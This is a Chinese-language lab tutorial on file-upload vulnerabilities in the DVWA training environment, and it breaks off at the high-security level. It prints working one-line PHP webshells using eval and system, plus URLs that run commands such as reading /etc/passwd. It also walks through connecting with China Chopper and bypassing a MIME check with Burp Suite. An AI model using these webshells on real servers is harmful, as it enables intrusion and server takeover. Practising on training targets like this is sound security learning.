




文件上传漏洞就是在web前端对用户上传的文件没有做过滤，攻击者利用此漏洞上传webshell，因此可以远程操控服务器。
小马：一句话木马也称为小马，即整个shell代码只有一行，一般是系统执行函数
大马：代码量和功能比小马多，一般都会进行二次编码加密，防止被安全防火墙/入侵系统检测到
1 #eval 使用php函数，例如phpinfo();
2 <?php eval($_REQUEST['cmd']);?>
3 http://192.168.152.147/dvwa/hackable/uploads/webshell2.php?cmd=phpinfo();1 #system 使用Linux系统命令，例如ls,cp,rm
2 <?php system($_request['cmd']);?>
3 http://192.168.152.147/dvwa/hackable/uploads/webshell3.php?cmd=cat /etc/passwd说明request是在网页端输入变量访问，post则是使用中国菜刀之类的工具连接，是C/S架构
1 <?php @eval($_post['cmd']);?>本实例使用DVWA作为靶场，owasp官网已经将该环境打包成ova文件，直接下载安装即可。
part 1。将dvwa安全级别设置为low。该级别对于上传的文件没有做限制，可以上传任意的文件。
1 <?php if (isset($_POST['Upload'])) { $target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/"; $target_path = $target_path . basename($_FILES['uploaded']['name']); $uploaded_name = $_FILES['uploaded']['name']; $uploaded_type = $_FILES['uploaded']['type']; $uploaded_size = $_FILES['uploaded']['size']; if (($uploaded_type == "image/jpeg") && ($uploaded_size < 100000)){ if(!move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)) { echo '<pre>'; echo 'Your image was not uploaded.'; echo '</pre>'; } else { echo '<pre>'; echo $target_path . ' succesfully uploaded!'; echo '</pre>'; } } else{ echo '<pre>Your image was not uploaded.</pre>'; } } ?> 1、访问https://192.168.152.147/dvwa/vulnerabilities/upload/，选择【upload】，上传一句话木马。上传成功后提示文件上传成功并显示文件路径
1 <?php @eval($_POST['caidao']);?>
2、使用中国菜刀连接，如下图所示，输入一句话木马中的密码’caidao’

右键选择文件管理，即可进入网站文件管理后台。

part 2。将安全级别设置成medium。该级别对于上传的文件做了MIME（多用途互联网邮件扩展）限制，只能上传在Content-Type为image/jpeg类型文件。当上传PHP脚本文件时，浏览器将拒绝上传此文件到后台服务器，因此需要使用burpsuite来绕过此限制。
查看文件源码。
1 <?php
2 if (isset($_POST['Upload'])) {
3
4 $target_path = DVWA_WEB_PAGE_TO_ROOT."hackable/uploads/";
5 $target_path = $target_path . basename($_FILES['uploaded']['name']);
6 $uploaded_name = $_FILES['uploaded']['name'];
7 $uploaded_type = $_FILES['uploaded']['type'];
8 $uploaded_size = $_FILES['uploaded']['size'];
9
10 if (($uploaded_type == "image/jpeg") && ($uploaded_size < 100000)){
11
12
13 if(!move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path)) {
14
15 echo '<pre>';
16 echo 'Your image was not uploaded.';
17 echo '</pre>';
18
19 } else {
20
21 echo '<pre>';
22 echo $target_path . ' succesfully uploaded!';
23 echo '</pre>';
24
25 }
26 }
27 else{
28 echo '<pre>Your image was not uploaded.</pre>';
29 }
30 }
31 ?> 此处省去burpsuite的基本设置。上传文件前使用burp拦截数据包，此content-type改为image/jpeg，可以绕过此限制，将PHP文件上传到后台服务器，如图所示

part3，将安全级别设置为high，此级别将会对上传的文件后缀名进行检验。